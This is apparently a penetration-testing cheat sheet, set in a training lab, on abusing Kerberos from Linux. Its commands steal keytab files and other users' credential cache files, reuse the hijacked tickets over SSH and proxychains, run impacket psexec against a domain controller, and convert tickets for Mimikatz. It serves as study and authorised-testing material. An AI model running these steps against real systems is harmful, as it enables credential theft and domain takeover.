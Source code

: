 # Kerberos on Linux

## Basic commands

View current Kerberos tickets
```
klist
env | grep KRB5CCNAME
```

Request / refresh Kerberos ticket
```
kinit
kinit -R
```
Purge current ticket
```
kdestroy
```

Request service ticket
```
kvno MSSQLSvc/DC01.corp1.com:1433 && klist
```

## Stealing Keytab Files

Using Keytab Files for Automated Kerberos Authentication
Keytab files store Kerberos principal names and encrypted keys, allowing automated scripts to authenticate to Kerberos-enabled resources without requiring a password. This is useful for scenarios like accessing a Kerberos-secured MSSQL database through a script.

Keytab files are often used in cron jobs or scheduled scripts that need to access network resources on behalf of a user. By examining the /etc/crontab file, we can identify scripts that may utilize keytabs for authentication and see which users are associated with them.

To create a keytab file for a user, use the ktutil command:

```
ktutil
addent -password -p administrator@CORP1.COM -k 1 -e rc4-hmac
wkt /tmp/administrator.keytab
quit
```
- `addent:` Adds an entry for the specified principal (administrator@CORP1.COM) with the specified encryption type (rc4-hmac).
- `wkt:` Writes the keytab to the specified path (/tmp/administrator.keytab).

When working as a root level user it is possible to read these keytab files in order to obtain a Kerberos ticket for the specified user within the keytab file.

```
root@linuxvictim:~# klist
klist: No credentials cache found (filename: /tmp/krb5cc_0)

root@linuxvictim:~# kinit administrator@CORP1.COM -k -t /tmp/administrator.keytab
root@linuxvictim:~# klist

Ticket cache: FILE:/tmp/krb5cc_0
Default principal: administrator@CORP1.COM

Valid starting       Expires              Service principal
10/04/2024 02:45:50  10/04/2024 12:45:50  krbtgt/CORP1.COM@CORP1.COM
        renew until 10/11/2024 02:45:50
```

Verify if ticket authentication is successful
```
smbclient -k -U "CORP1.COM\administrator" //DC01.CORP1.COM/C$
```

## Attacking Using Credential Cache Files

Typically users ccache files are stored in `/tmp/krb5cc_*`. Usually the file is only readable by the owner / creator of the file. However, if we have root level access or privileged read / write to a users ccache file this can be abused to gain access to the Kerberos credential material.

```
sudo cp /tmp/krb5cc_607000500_3aeIA5 /tmp/krb5cc_minenow
sudo chown offsec:offsec /tmp/krb5cc_minenow
ls -al /tmp/krb5cc_minenow
```

Import ticket into current session:
```bash
kdestroy
export KRB5CCNAME=/tmp/krb5cc_minenow
klist

# Validate
smbclient -k -U "CORP1.COM\administrator" //DC01.CORP1.COM/C$
```
## Using Kerberos from Linux over proxychains

In the event we have captured Kerberos credentials on an intermediary host, we can export the ccache back to our Kali machine, create a SSH tunnel and use the ccache locally over proxychains against a target network.

Proxychains config:
```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```
Forward port 9050 to the intermediary host with SSH
```
ssh offsec@192.168.234.45 -D 9050
```
Copy ccache ticket from intermdiary host to attacking system
```
scp offsec@192.168.234.45:/tmp/krb5cc_minenow /tmp/krb5cc_minenow  
```

Export the ccache to our environment on the attacking system
```
export KRB5CCNAME=/tmp/krb5cc_minenow 
```
Then confirm with Proxychains we can perform domain actions
```python
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.234.5 CORP1.COM/Administrator

proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@DC01.CORP1.COM -k -no-pass

```
## Convert ccache files to Kirbi format
If required. ccache files can be converted to Kirbi format for use with Mimikatz or Rubeus (after Base64) encoding
```
python3 /usr/share/doc/python3-impacket/examples/ticketConverter.py krb5cc_myccache out.kirbi
```
